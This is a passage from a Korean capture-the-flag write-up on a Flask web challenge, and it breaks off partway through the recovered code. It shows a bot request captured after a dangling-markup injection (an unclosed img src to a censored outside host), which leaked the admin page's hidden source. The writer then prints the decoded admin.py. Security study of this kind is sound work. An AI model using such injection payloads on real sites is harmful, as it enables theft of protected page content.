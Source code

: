 ```http
GET /?p=%22%3Efrom%20flask%20import%20request,%20render_templatefrom%20flask_csp.csp%20import%20csp_headerimport%20requestsimport%20rewith%20open(%22flag.txt%22)%20as%20f:%20%20%20%20FLAG%20=%20f.read()def%20_local_access()%20-%3E%20bool:%20%20%20%20if%20request.referrer%20is%20not%20None%20and%20not%20re.match(r%22^http://127\.0\.0\.1(:\d+)?/%22,%20request.referrer):%20%20%20%20%20%20%20%20return%20False%20%20%20%20return%20request.remote_addr%20==%20%22127.0.0.1%22def%20routes(app,%20csp):%20%20%20%20@csp_header(csp)%20%20%20%20@app.route(%22/admin%22)%20%20%20%20def%20adm():%20%20%20%20%20%20%20%20url%20=%20request.args.get(%22picture%22)%20%20%20%20%20%20%20%20if%20_local_access():%20%20%20%20%20%20%20%20%20%20%20%20with%20open(__file__)%20as%20f:%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20code%20=%20f.read()%20%20%20%20%20%20%20%20else:%20%20%20%20%20%20%20%20%20%20%20%20code%20=%20None%20%20%20%20%20%20%20%20return%20render_template(%22admin.html%22,%20url=url,%20code=code)%20%20%20%20@csp_header(csp)%20%20%20%20@app.route(%22/article%22,%20methods%20=%20[%22POST%22])%20%20%20%20def%20secret():%20%20%20%20%20%20%20%20try:%20%20%20%20%20%20%20%20%20%20%20%20assert%20_local_access()%20%20%20%20%20%20%20%20%20%20%20%20data%20=%20request.get_json(force=True)%20%20%20%20%20%20%20%20%20%20%20%20assert%20data[%22secret%22]%20==%20%22No%20one%20will%20never%20ever%20access%20this%20beauty%22%20%20%20%20%20%20%20%20%20%20%20%20requests.post(data[%22url%22],%20data={%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22flg%22:%20FLAG,%20%20%20%20%20%20%20%20%20%20%20%20},%20timeout=2)%20%20%20%20%20%20%20%20%20%20%20%20return%20%22yeah!%22%20%20%20%20%20%20%20%20except%20Exception%20as%20e:%20%20%20%20%20%20%20%20%20%20%20%20app.logger.error(e)%20%20%20%20%20%20%20%20%20%20%20%20return HTTP/1.1
Host: (censored)
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/73.0.3683.75 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://127.0.0.1:8080/admin?picture=%22%3E%3Cimg%20src=%27(censored)/?p=
Accept-Encoding: gzip, deflate
```

 admin페이지의 숨겨진 소스를 leak할 수 있다. 

urldecode를 통해 복원하고 formatting을 하면 admin.py는 다음과 같다.

```python
from flask import request, render_template
from flask_csp.csp import csp_header
import requests
import re

with open("flag.txt") as f:
    FLAG = f.read()

def _local_access() -> bool:
    if request.referrer is not None and not re.match(r"^http://127\.0\.0\.1(:\d+)?/", request.referrer):
        return False
    return request.remote_addr == "127.0.0.1"

def routes(app, csp):
    @csp_header(csp)
    @app.route("/admin")
    def adm():
        url = request.args.get("picture")
        if _local_access():
            with open(__file__) as f:
                code = f.read()
        else:
            code = None
        return render_template("admin.html", url=url, code=code)

    @csp_header(csp)
    @app.route("/article", methods = ["POST"])
    def secret():
        try:
            assert _local_access()
```